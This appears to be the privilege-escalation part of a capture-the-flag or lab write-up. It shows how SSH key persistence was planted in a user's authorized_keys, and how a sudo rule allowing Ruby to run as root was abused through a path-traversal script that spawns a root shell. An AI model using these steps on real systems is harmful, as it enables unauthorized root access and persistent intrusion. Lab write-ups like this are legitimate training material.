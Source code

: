 ![](https://i.imgur.com/c7IWnOS.png)

# **Privilege Escalation**

- to escalate privilege i created an `ssh` key on my machine `ssh-keygen -t rsa`
- and didn't specify a password:

![](https://i.imgur.com/KQfe8es.png)

- a private and public `.pub` will be created so now i have to transfer the public key to the `carlos` .ssh directory and change the name to `authorized_keys`

![](https://i.imgur.com/0c3DYD6.png)

![](https://i.imgur.com/VKRO3yB.png)

- now all i need to do is log-in via ssh with the private key and leave password filed empty:

![](https://i.imgur.com/H0iFPNj.png)

- now running `sudo -l` i discover that the carlos user can run a ruby file with NOPASSWORD:

![](https://i.imgur.com/ldwLgB7.png)

- **Create the Ruby Script**: we will Create a Ruby script that will spawn a root shell. we will need to place this script in a location where you have write access, such as `carlos` home directory (`/home/carlos`).
```rb
echo 'exec "/bin/sh"' > /home/carlos/read_root.rb
```

- **Execute the Script with Sudo**: Since we can run the `ruby` binary with `sudo`, execute the script using the appropriate path traversal to access it from the `/root` directory.
```rb
sudo /usr/bin/ruby /root/../home/carlos/read_root.rb
```

![](https://i.imgur.com/KF8xBXV.png)

### Thanks For Reading

